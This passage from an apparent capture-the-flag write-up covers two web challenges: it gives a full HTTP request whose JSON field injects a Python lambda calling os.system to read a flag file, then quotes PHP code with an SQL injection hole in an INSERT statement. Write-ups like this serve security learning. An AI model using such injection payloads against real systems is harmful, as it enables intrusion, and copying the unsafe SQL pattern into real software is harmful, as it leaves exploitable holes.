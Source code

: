```python
            difference2=lambda source, color: (color - source) / color,
            red_band=img_bands[0],
            green_band=img_bands[1],
            blue_band=img_bands[2]
        )
```

So, we just copy pasting the payload and successfully obtained the **FLAG**

```
POST /api/alphafy HTTP/1.1
Host: 157.245.40.139:31815
Content-Length: 342
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://157.245.40.139:31815
Referer: http://157.245.40.139:31815/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Connection: close

{"image":"iVBORw0KGgoAAAANSUhEUgAAAHkAAAAbCAIAAADXpLdPAAAACXBIWXMAAA7EAAAOxAGVKw4bAAAAWklEQVRoQ+3QoQ0AIQDAwOfXICHsPyUeT9WdrOyYa38k/jvwjNcdrzted7zueN3xuuN1x+uO1x2vO153vO543fG643XH647XHa87Xne87njd8brjdcfrjtedA4v8AI+wONVzAAAAAElFTkSuQmCC","background":["(lambda: __import__('os').system('cat /flag.txt > application/static/flag.txt'))()",71,71]}
```

![](amidst-3.png)

**HTB{i_slept_my_way_to_rce}**


### Intergalactic Post (300 points)

The value of this challenge is 300 points and +360 players have solved this challenge.

![](intergalactic-1.png)

We're given a website with a feature for subscribing to stuff.

![](intergalactic-2.png)

In this challenge, the author gives us a source code, We could make use of this for analyzing the source code.

After reading the _source code_, there's an odd way for executing SQL at `challenge/Database.php#L34:L37`.

```php
public function subscribeUser($ip_address, $email)
{
    return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```
